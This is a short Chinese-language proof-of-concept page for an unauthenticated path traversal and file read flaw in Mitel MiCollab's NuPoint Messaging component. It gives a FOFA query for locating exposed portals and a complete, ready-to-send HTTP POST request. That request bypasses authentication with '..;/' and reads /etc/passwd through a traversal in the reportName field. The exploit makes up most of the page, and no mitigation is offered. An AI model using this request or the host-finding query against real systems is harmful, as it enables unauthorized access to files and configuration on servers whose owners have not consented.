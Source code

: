 # Mitel企业协作平台任意文件读取漏洞

由于Mitel MiCollab软件的 NuPoint 统一消息 (NPM) 组件中存在身份验证绕过漏洞，并且输入验证不足，未经身份验证的远程攻击者可利用该漏洞执行路径遍历攻击，成功利用可能导致未授权访问、破坏或删除用户的数据和系统配置。

## fofa

```javascript
body="MiCollab End User Portal"
```

## poc

```javascript
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded

_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```

![image-20241211213252626](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112132699.png)
